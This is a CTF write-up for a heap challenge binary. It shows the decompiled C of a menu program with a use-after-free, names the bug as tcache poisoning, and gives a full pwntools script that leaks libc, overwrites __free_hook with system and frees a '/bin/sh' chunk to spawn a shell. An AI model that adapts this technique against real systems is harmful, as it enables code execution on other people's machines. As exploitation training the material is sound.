

```c

void main(void)

{
  undefined4 option;
  
  initState();
  puts("Ez heap challange !");
  do {
    menu();
    option = readInt();
    switch(option) {
    default:
      puts("no option");
      break;
    case 1:
      createHeap();
      break;
    case 2:
      showHeap();
      break;
    case 3:
      editHeap();
      break;
    case 4:
      deleteHeap(0);
      break;
    case 5:
                    /* WARNING: Subroutine does not return */
      exit(0);
    }
  } while( true );
}


undefined8 createHeap(void)

{
  int idx;
  void *ptr;
  
  printf("Index:");
  idx = readInt();
  if ((-1 < idx) && (idx < 10)) {
    ptr = malloc(0x80);
    *(void **)(store + (long)idx * 8) = ptr;
    *(undefined4 *)(storeSize + (long)idx * 4) = 0x80;
    printf("Input data:");
    readStr(*(undefined8 *)(store + (long)idx * 8),0x80);
    puts("Done");
    return 0;
  }
                    /* WARNING: Subroutine does not return */
  exit(0);
}


ulong readStr(void *buffer,uint size)

{
  int len;
  ulong bytes;
  
  bytes = read(0,buffer,(ulong)size);
  len = (int)bytes;
  if (len < 0) {
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  if (*(char *)((long)buffer + (long)len + -1) == '\n') {
    *(undefined1 *)((long)buffer + (long)len + -1) = 0;
  }
  return bytes & 0xffffffff;
}


undefined8 showHeap(void)

{
  int idx;
  
  printf("Index:");
  idx = readInt();
  if (*(long *)(store + (long)idx * 8) != 0) {
    printf("Data = %s\n",*(undefined8 *)(store + (long)idx * 8));
  }
  return 0;
}


undefined8 editHeap(void)

{
  int idx;
  
  printf("Input index:");
  idx = readInt();
  if ((idx < 10) && (-1 < idx)) {
    if (*(long *)(store + (long)idx * 8) != 0) {
      readStr(*(undefined8 *)(store + (long)idx * 8),*(undefined4 *)(storeSize + (long)idx * 4));
      puts("Done ");
    }
    return 0;
  }
                    /* WARNING: Subroutine does not return */
  exit(0);
}


undefined8 deleteHeap(void)

{
  int idx;
  
  printf("Input index:");
  idx = readInt();
  if ((idx < 10) && (-1 < idx)) {
    if (*(long *)(store + (long)idx * 8) != 0) {
      free(*(void **)(store + (long)idx * 8));
      puts("Done ");
    }
    return 0;
  }
                    /* WARNING: Subroutine does not return */
  exit(0);
}


```
___

___
main bug: tcache poisoning


___
`script.py`:
```c
from pwn import *

libc = ELF("./libc.2.28.so", checksec=False)
context.binary = exe = ELF("./pwn6_hoo_patched", checksec=False)
context.log_level = "debug"

def GDB():
	gdb.attach(p, gdbscript='''
		handle SIGALRM ignore
		set max-visualize-chunk-size 0x300

		br *createHeap+73

		br *showHeap+111

		br *editHeap+167

		br *deleteHeap+123

		''')

p = process(exe.path)
# GDB()

def createHeap(idx, data):
	p.sendlineafter(b'>', b'1')
	p.sendlineafter(b'Index:', idx)
	p.sendlineafter(b'data:', data)

def showHeap(idx):
	p.sendlineafter(b'>', b'2')
	p.sendlineafter(b'Index:', idx)

def editHeap(idx, data):
	p.sendlineafter(b'>', b'3')
	p.sendlineafter(b'index:', idx)
	p.sendline(data)

def deleteHeap(idx):
	p.sendlineafter(b'>', b'4')
	p.sendlineafter(b'index:', idx)


createHeap(b'0', b'A'*4)
createHeap(b'1', b'B'*4)
createHeap(b'2', b'C'*4)
createHeap(b'3', b'D'*4)
createHeap(b'4', b'E'*4)
createHeap(b'5', b'F'*4)
createHeap(b'6', b'G'*4)
print(f'=================\n=================')
createHeap(b'7', b'H'*4)
# avoid merging idx7 with top chunk 
createHeap(b'8', b'E'*4)

deleteHeap(b'0')
deleteHeap(b'1')
deleteHeap(b'2')
deleteHeap(b'3')
deleteHeap(b'4')
deleteHeap(b'5')
deleteHeap(b'6')
print(f'=================\n=================')
deleteHeap(b'7')

GDB()
showHeap('7')
leak_libc = p.recvuntil(b'=')
leak_libc = p.recvline().strip()
leak_libc = u64(leak_libc.ljust(8, b"\x00"))
libc.address = leak_libc - 0x1e4ca0
print(f"leak_libc: {hex(leak_libc)}")
print(f"libc_base: {hex(libc.address)}")

free_hook = libc.address + 0x1e68e8
system = libc.address + 0x50300
print(f"system: {hex(system)}")
bin_sh = b'/bin/sh'
print(f"free_hook: {hex(free_hook)}")

# tcache: LIFO, inject into the last freed chunk on tcachebins (idx 6)
editHeap(b'6', p64(free_hook))
# create a valid chunk first (1)
createHeap(b'0', b'IM HERE')
# to __free_hook, overwrite with system
createHeap(b'1', p64(system))
# create a chunk with /bin/sh
createHeap(b'2', bin_sh)

deleteHeap(b'2')

p.interactive()
```
